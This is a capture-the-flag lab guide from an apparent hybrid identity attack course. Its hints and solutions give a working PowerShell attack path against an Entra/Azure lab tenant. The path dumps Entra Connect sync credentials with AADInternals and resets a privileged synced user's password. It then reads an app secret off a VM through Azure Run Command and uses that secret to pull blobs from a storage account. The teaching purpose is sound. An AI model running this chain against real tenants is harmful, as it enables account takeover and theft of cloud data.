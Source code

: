 # LAB 4 : Capture the Flag (CTF) Challenge

## Preparations
* **DO NOT** look at the scripts content / output

1. RDP login to DC VM using the YOURDOMAIN\\**rootuser**, then run the following script as admin (**when asked, login using the ENTRA CREDS (!) - you will be asked twice**)
    ```powershell
    # when asked, login using the ENTRA ADMIN CREDS (!) - you will be asked twice
    Invoke-WebRequest -Uri "https://raw.githubusercontent.com/shackcrack007/hybrid-attacks-course-template/refs/heads/main/labs%20(for%20course%20sessions%2C%20not%20part%20of%20setup)/lab-4-full-attack-flow/lab4PreparationScript.ps1" -OutFile "C:\\lab4PreparationScript.ps1"; `
    & "C:\\lab4PreparationScript.ps1" -DomainName #"mydomain.onmicrosoft.com"
    ```
    - if failed it's probably due to timeout: rerun again and enter the creds faster

2. RDP login to Win11 VM, then put there what you've created in the script above in the correct place..

## Instructions: Start Here
1. Your goal is to find the `secret.txt` file 
2. forget everything you knew: from this point on you DON'T know what the Entra admin password is (i.e. what's the password of ``user1`` / ``rootuser`` / ``admin``..), and what the VMs passwords are
3. **DO NOT** password reset ``user1``
3. **Starting point:** as the attacker the only thing you have is the RDP session on the DC VM. Good luck! 

Do not use hints unless you really have to..

## Hints

<details>
    <summary><b>First hint: where the secret.txt file isn't stored</b></summary>

    The file isn't on any VM
</details>


<details>
    <summary><b>Entire attack path hint (use as last resort)</b></summary>

![entire_path](entire_path.png)
    1. Pass reset: DC vm -> reset pass of "user2" (or your given user in the class) using Entra Sync account credentials

    2. Login to Azure as that user using your browser

    3. Azure Portal Run Command on Win11 VM 

    4. Steal the app secret on that VM by running powershell script from the Run Command extension on the Azure portal 

    5. Use the secret to get access token and authenticate using PowerShell to MS Graph API read secret.txt from storage account
</details>


## Step 1

<details>
<summary><b>Hint 1</b></summary>
    
    1. Find a way to compromise a synced user in order to jump to the cloud

    2. Recon for roles / azure permissions to see which user you want to compromise

    3. it's not "user1"...
</details>


<details>
    <summary><b>Hint 2</b></summary>
    
    Abuse the Entra Connect password reset feature using AADInternals
</details>



<details>
<summary><b>Solution</b></summary>
on the DC VM:

```powershell
Import-Module AADInternals -RequiredVersion "0.9.4"
Get-AADIntSyncCredentials
```

Login using dumped Sync_XX account:
```powershell
# Prompt for credentials and retrieve & store access token to cache
# Enter your dumped Sync_XX account creds!
$at = Get-AADIntAccessTokenForAADGraph
$tenant = Get-AADIntSyncConfiguration -AccessToken $at # get the tenant ID

Connect-AzureAD -AadAccessToken $at -tenantId $tenant.tenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id
```

Enumerate users:
```powershell
# list on-premise, synced users with their roles
$onpremSyncedUsers = Get-AzureADUser -All $true | Where-Object { 
    $_.OnPremisesSecurityIdentifier -ne $null 
} 
$onpremSyncedUsers | ForEach-Object { 
    $user = $_; 
    Get-AzureADDirectoryRole | ForEach-Object { 
        $role = $_;
        Get-AzureADDirectoryRoleMember -ObjectId $role.ObjectId | Where-Object { $_.ObjectId -eq $user.ObjectId } | Select-Object @{Name='UserPrincipalName';Expression={$user.UserPrincipalName}}, @{Name='OnPremisesSecurityIdentifier';Expression={$user.OnPremisesSecurityIdentifier}}, @{Name='ImmutableId';Expression={$user.ImmutableId}}, @{Name='Role';Expression={$role.DisplayName}} 
    } 
} | Format-Table -Wrap -AutoSize

```

Enumerate Applications:
```powershell
# Retrieve all applications
$applications = Get-MgApplication -All

# Retrieve all service principals (needed for permission lookup)
$servicePrincipals = Get-MgServicePrincipal -All

# Iterate over each application
foreach ($app in $applications) {
    $appName = $app.DisplayName
    $appId = $app.AppId
    $appObjectId = $app.Id

    # Retrieve permissions (RequiredResourceAccess contains GUIDs of permissions)
    $permissions = @()
    foreach ($resourceAccess in $app.RequiredResourceAccess) {
        $sp = $servicePrincipals | Where-Object { $_.AppId -eq $resourceAccess.ResourceAppId }
        if ($sp) {
            foreach ($perm in $resourceAccess.ResourceAccess) {
                $role = $sp.AppRoles | Where-Object { $_.Id -eq $perm.Id }
                $permName = if ($role) { $role.DisplayName } else { "Unknown Permission ($($perm.Id))" }
                $permissions += [PSCustomObject]@{
                    ResourceName = $sp.DisplayName
                    Permission   = $permName
                    Type         = $perm.Type
                }
            }
        }
    }

    # Output application information
    Write-Host "Application: $appName"
    Write-Host "  App ID: $appId"
    Write-Host "  Object ID: $appObjectId"
    Write-Host "  Required Permissions:"
    $permissions | Format-Table -AutoSize

    # Retrieve associated service principal
    $sp = $servicePrincipals | Where-Object { $_.AppId -eq $appId }
    if ($sp) {
        $spName = $sp.DisplayName
        $spObjectId = $sp.Id
        Write-Host "  Service Principal: $spName"
        Write-Host "    Object ID: $spObjectId"

        # Get assigned roles for the service principal
        $assignedRoles = Get-MgServicePrincipalAppRoleAssignment -ServicePrincipalId $spObjectId
        if ($assignedRoles) {
            $roleDetails = @()
            foreach ($role in $assignedRoles) {
                $resourceSP = $servicePrincipals | Where-Object { $_.Id -eq $role.ResourceId }
                if ($resourceSP) {
                    $roleName = $resourceSP.AppRoles | Where-Object { $_.Id -eq $role.AppRoleId }
                    $roleDisplayName = if ($roleName) { $roleName.DisplayName } else { "Unknown Role ($($role.AppRoleId))" }
                    $roleDetails += [PSCustomObject]@{
                        AssignedTo    = $resourceSP.DisplayName
                        RoleName      = $roleDisplayName
                    }
                }
            }

            Write-Host "    Assigned Roles:"
            $roleDetails | Format-Table -AutoSize
        } else {
            Write-Host "    No assigned roles."
        }
    } else {
        Write-Host "  No associated service principal found."
    }

    Write-Host "--------------------------------------"
}
```

We see some interesting app and service principal, however we don't have any permissions to them..
</details>

## Step 2

<details>
    <summary><b>Hint 1</b></summary>
    
    Let's target `user2` (or your target user given as in class), as he holds a privileged role and we do have permissions to set its password.. 
</details>


Reset the victim user's Entra password:
```powershell
Set-AADIntUserPassword -SourceAnchor "IMMUTABLE_ID" -Password "MYPASS"  -AccessToken $at -Verbose 
```
</details>


## Step 3

<details>
    <summary><b>Hint 1</b></summary>
    
    Login to Azure as that user and see what you have access to
</details>

<details>
    <summary><b>Hint 2</b></summary>

    You can find the virtual machine Win11 and using the Run Command extension execute PowerShell script on it
</details>


<details>
    <summary><b>Hint 3</b></summary>
    
    user1 is logged into that Win 11 vm, and he's a part of the company's IT, he's the guy responsible for backing up cloud data of the company.
    He does that by running stuff from the C:\ folder...
</details>

<details>
    <summary><b>Hint 4</b></summary>

    Use the Run Command extension to get a secret that lies on this machine on the C:\ folder..
</details>

<details>
<summary><b>Solution</b></summary>

user1 created an app with a scret to make these backups, let's use that for our advantage..

1. Login to portal.azure.com as the target user you compromised
2. Run the following command on the Win11 VM from the Run Command Window in the Azure portal:
3. `type c:\backup_app_secret.txt`
</details>

## Step 3
<details>
    <summary><b>Hint 1</b></summary>
    
    Using the acquired file content, what can you do?
    You may use your own PC / DC VM, you got everything you needed from this VM.
</details>

<details>
    <summary><b>Hint 2</b></summary>
    
    Authenticate as that SPN and see what it has access to..

```powershell
$appSecret = "SECRET_FROM_VM"
$tenantId = "YOUR_TENANT_ID"
$spId = "SPN_OBJECT_ID"

$SecureClientSecret = ConvertTo-SecureString $appSecret -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential ($appId, $SecureClientSecret)
Connect-AzAccount -ServicePrincipal -Credential $Credential -tenantId $tenantId
```
</details>

<details>
    <summary><b>Hint 3</b></summary>
    
```powershell
# List SPN's Azure Role Assignment using Azure PowerShell
$roleAssignments = Get-AzRoleAssignment -ObjectId $spId
$roleAssignments | ForEach-Object {
    Write-Output "Role: $($_.RoleDefinitionName) - Scope: $($_.Scope)"
}
```
</details>

<details>
    <summary><b>Hint 4</b></summary>
    
    We can see that there's a storage account that this SPN has access to..
</details>


<details>
    <summary><b>Solution</b></summary>
    
```powershell
Get-MgApplication -All # select the correct app.appId (NOT app.Id), run this command as the user you've compromised
$appId = "APP_ID" # get it from command above
$appSecret = "SECRET_FROM_VM"
$tenantId = "YOUR_TENANT_ID" # you can get it here https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView$spId = "SPN_OBJECT_ID"

$SecureClientSecret = ConvertTo-SecureString $appSecret -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential ($appId, $SecureClientSecret)
Connect-AzAccount -ServicePrincipal -Credential $Credential -tenantId $tenantId

```
We can see that there's a storage account that this user has access to..
```powershell
# Get all storage accounts
$storageAccounts = Get-AzStorageAccount

foreach ($storageAccount in $storageAccounts) {
    Write-Output "Storage Account: $($storageAccount.StorageAccountName)"

    # Get the context for the storage account
    $context = $storageAccount.Context

    # List all containers in the storage account
    $containers = Get-AzStorageContainer -Context $context

    foreach ($container in $containers) {
        Write-Output "  Container: $($container.Name)"

        # List all blobs in the container
        $blobs = Get-AzStorageBlob -Container $container.Name -Context $context

        foreach ($blob in $blobs) {
            Write-Output "    Blob: $($blob.Name)"

            # Download the blob content to a temporary location
            $tempFilePath = Join-Path -Path $env:TEMP -ChildPath $blob.Name
            Get-AzStorageBlobContent -Blob $blob.Name -Container $container.Name -Context $context -Destination $tempFilePath -Force

            # Print the content of the blob
            $blobContent = Get-Content -Path $tempFilePath
            Write-Output "      Content: $blobContent"
        }
    }
}
```

### The content of "secret.txt" in storage account is your medal, mazal tov hacker cracker!

#### Bonus: 
Go back to the beginning, and try steal your target user identity using silver ticket (Seamless SSO) instead of password reset
</details>


## Don't forget
Once done, delete the lab resource groups to clean up the resources + the App Registration and its Enterprise App